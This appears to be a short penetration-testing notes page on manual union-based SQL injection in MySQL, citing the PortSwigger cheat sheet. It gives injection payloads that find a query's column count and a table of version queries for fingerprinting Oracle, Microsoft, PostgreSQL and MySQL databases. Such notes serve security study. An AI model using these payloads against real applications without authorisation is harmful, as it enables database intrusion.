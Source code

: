 ## MySQL Injection Manually (Union Based)
---

> [Portswigger SQLI Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Get Column Length in current table

```bash
'UNION SELECT ALL NULL,NULL -- -
```

![](../../attachment/73d59e4f92c2b691b57229213ee24e83.png)

success on 3 columns

```bash
'UNION SELECT ALL NULL,NULL,NULL -- -
```

![](../../attachment/be29ac8a0b030f19ec8954338a734b1b.png)

### Identify DMBS

| DBMS | Function |
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

```bash
'UNION SELECT ALL NULL,NULL,@@version -- -
```
